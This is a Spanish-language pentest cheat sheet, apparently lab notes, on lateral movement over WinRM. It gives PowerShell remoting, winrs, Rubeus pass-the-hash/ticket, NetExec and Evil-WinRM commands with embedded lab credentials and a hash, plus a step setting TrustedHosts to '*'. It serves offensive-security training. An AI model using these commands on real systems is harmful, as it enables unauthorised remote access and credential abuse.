# Desde Windows

### PowerShell

##### Ejecutar comandos

    Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami }

##### Para hacerlo con credenciales:

    $username = "INLANEFREIGHT\Helen"
    $password = "RedRiot88"
    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
    $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
    Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname }



### Winrs

##### Ejecutar un comando

    winrs /remote:srv02 /username:helen /password:RedRiot88 "powershell -c whoami;hostname"

### PSSession
##### Copiar archivos 
Iniciamos una sesión

    $sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential

###### Desde nuestra PC a la del target

    Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\helen\Desktop\Sample.txt' -Destination 'C:\Users\helen\Desktop\Sample.txt' -Verbose

###### Desde el target a nuestra pc:

    Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose

##### Obtener una shell interactiva

    Enter-PSSession $sessionSRV02

### Rubeus

Si queremos hacer un pass the hash o pass the ticket rubeus es la mejor opción. La idea es generar un ticket para poder importar la sesión y de esta manera abusar de la misma para relacionarnos con el target

###### 1) Creamos nuestro ticket

    .\Rubeus.exe asktgt /user:leonvqz /rc4:32323DS033D176ABAAF6BEAA0AA681400 /nowrap

##### 2) Creamos un proceso de sacrificio

    .\Rubeus.exe createnetonly /program:powershell.exe /show

##### 3) Importamos el ticket creado en el paso 1 para generar la sesión

    .\Rubeus.exe ptt /ticket:<ticket>

##### 4) Ahora que tenemos la sesión, abusamos de la misma

    Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate

## Errores

Si recibimos errores usualmente son porque se pierde en nuestra sesión alguna variable de autenticación.

Si el error nos dice que no nos reconoce el endpoint por su nombre **SRV02** probar con el FQDN: **srv02.inlanefreight.local**

##### Si tenemos el error:

    Enter-PSSession : Connecting to remote server srv02 failed with the following error message : The WinRM client cannot
    process the request.  Default credentials with Negotiate over HTTP can be used only if the target machine is part of
    the TrustedHosts list or the Allow implicit credentials for Negotiate option is specified. For more information, see
    the about_Remote_Troubleshooting Help topic.
    At line:1 char:1

Podemos solucionarlo con el siguiente comando

    Set-Item WSMan:localhost\client\trustedhosts -value * -Force


---

# Desde Linux

### NetExec

##### Ejecutar un comando:

    netexec winrm 10.129.229.244 -u frewdy -p Kiosko093 -x "ipconfig"

### Evil-WinRm

##### Instalación

    sudo apt-get install ruby && gem install evil-winrm    

##### Conectarnos

    evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093

Podemos ver los comandos disponibles una vez iniciada la sesión con el comando **menu**
